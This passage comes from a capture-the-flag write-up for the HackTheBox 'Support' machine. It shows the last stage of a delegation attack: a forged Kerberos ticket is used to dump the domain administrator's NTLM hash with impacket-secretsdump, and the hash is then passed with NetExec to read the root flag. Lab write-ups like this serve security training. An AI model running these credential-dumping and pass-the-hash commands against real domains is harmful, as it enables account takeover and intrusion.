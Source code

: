 Next, we need to use the second ST by setting the `KRB5CCNAME5` variable's value to its path, dump the `administrator`'s hash, and read the `root.txt` flag 🚩 (Figure 14).

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># setting the KRB5CCNAME variable
export KRB5CCNAME='administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache'
<strong>impacket-secretsdump -k -no-pass -just-dc-ntlm dc.support.htb -just-dc-user administrator
</strong># write hash to a file
echo bb06cbc02b39abeddd1335bc30b19e26 > admin_hash
# read the root flag
nxc smb 10.10.11.174 -u administrator -H admin_hash -x 'type c:\users\administrator\desktop\root.txt'
</code></pre>

<figure><img src="../../.gitbook/assets/support_root.png" alt=""><figcaption><p>Figure 14: Dumping <code>ntds.dit</code> and read the root flag.</p></figcaption></figure>

[^1]: Server Message Block

[^2]: Resource-Based Contrained Delegation

[^3]: Elevation of Privileges

[^4]: Resource-Based Constrained Delegation

[^5]: Domain Controller

[^6]: Fully Qualified Domain Name

[^7]: Lightweight Directory Access Protocol

[^8]: Service Principal Name

[^9]: Key Distribution Center

[^10]: Service Ticket
